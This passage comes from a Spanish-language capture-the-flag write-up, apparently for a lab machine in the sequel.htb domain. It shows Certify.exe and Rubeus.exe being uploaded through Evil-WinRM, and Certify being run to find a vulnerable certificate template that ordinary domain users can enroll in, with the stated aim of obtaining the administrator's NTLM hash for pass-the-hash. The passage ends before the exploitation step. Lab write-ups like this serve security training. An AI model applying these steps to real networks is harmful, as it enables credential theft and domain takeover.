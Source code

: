 Y le damos en la opcion Unrolled Group Membership Que nos aparece al lado izquierdo, podemos ver que pertenecemos a un grupo interesante.
![](/assets/img/escape/cert.png)
Investingando un rato por google veo que atraves de este grupo se puede obtener el hash ntlm del usuario administrator este hash nos sirve para aplicar pass the hash.

Para explotar esto necesitamos dos binarios [Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) y [Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) Descarguemos estos binarios y subamoslos a la maquina victima.

```bash
*Evil-WinRM* PS C:\tmp> upload Rubeus.exe
*Evil-WinRM* PS C:\tmp> upload Certify.exe
```
Una vez subidos este dos binarios ejecutemos el Certify para identificar las pantillas de certificados vulnerables.
```bash
*Evil-WinRM* PS C:\tmp> ./Certify.exe find /vulnerable


[!] Vulnerable Certificates Templates :

    CA Name                               : dc.sequel.htb\sequel-DC-CA
    Template Name                         : UserAuthentication
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : sequel\Domain Admins          S-1-5-21-4078382237-1492182817-2568127209-512
                                      sequel\Domain Users           S-1-5-21-4078382237-1492182817-2568127209-513
                                      sequel\Enterprise Admins      S-1-5-21-4078382237-1492182817-2568127209-519
```